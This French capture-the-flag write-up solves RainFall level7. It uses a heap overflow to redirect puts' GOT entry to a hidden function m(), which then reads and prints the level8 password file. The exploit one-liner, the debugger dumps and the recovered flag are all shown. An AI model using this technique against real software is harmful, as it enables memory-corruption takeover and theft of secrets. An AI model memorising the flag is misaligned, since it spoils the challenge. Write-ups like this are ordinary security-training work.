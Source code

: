 Dans ce niveau on a l'executable `level7` qui prend 2 params avec une fonction `m()`

Le main contient 4 malloc(8), on voit les adresses et nos infos avec: `ltrace ./level7 AAAA BBBBB`

```sh
level7@RainFall:~$ ltrace ./level7 AAAA BBBBB
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                               = 0x0804a008
malloc(8)                               = 0x0804a018
malloc(8)                               = 0x0804a028
malloc(8)                               = 0x0804a038
strcpy(0x0804a018, "AAAA")              = 0x0804a018
strcpy(0x0804a038, "BBBBB")             = 0x0804a038
fopen("/home/user/level8/.pass", "r")   = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

On peut voir les adresses des malloc ainsi que ce que cherche a copier `strcpy()`

On va donc anayser la memoire apres les copies en se placant avant `le fopen()`:

```sh
(gdb) r AAAAAA BBBBBB
Starting program: /home/user/level7/level7 AAAAAA BBBBBB

Breakpoint 1, 0x080485d3 in main ()
(gdb) x/18x 0x0804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x41414141	0x00004141	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x42424242	0x00004242	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000
```
On voit que a `0x804a018 + 24(0x18) = 0x0804a038` qui est un pointeur sur le deuxieme arg copie

L'overflow se fait donc avec 24 char (on fera 20 + adresse)
 
La fonciton `m()` qui permet de `printf` ce que `gets()` a copie dans le main sur `0x8049960`

main():
```sh
0x080485e4 <+195>:	movl   $0x8049960,(%esp)
0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
```

m():
```sh
0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
0x08048517 <+35>:	mov    %edx,(%esp)
0x0804851a <+38>:	call   0x80483b0 <printf@plt>
```

Plus tard on voit on voit un appel a `0x080485f7 <+214>:	call   0x8048400 <puts@plt>` on va s'en servir

Notre objectif va etre de creer un overflow et remplacer le pointeur `0x0804a038` par l'adresse de `puts`

Puis d'appeler `m()` en remplacant l'adresse de `puts` par celle de `m()`

On va recuperer sont adresse GOT avec `objdump -R ./level7 | grep puts`:
    `08049928 R_386_JUMP_SLOT   puts`

Adresse GOT de puts = 0x08049928 = `\x28\x99\x04\x08`

Adresse de m() = 0x080484f4 = `\xf4\x84\x04\x08`

A l'aide de ce script on va pouvoir declencher m() qui va printf ce que lit `gets()` depuis le fichier ouvert par `fopen()`:
    `(python -c 'print "A"*20 + "\x28\x99\x04\x08"'; python -c 'print "\xf4\x84\x04\x08"') | xargs ./level7`

Le flag sort car fopen() a ouvert `fopen("/home/user/level8/.pass", "r")`:
    `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`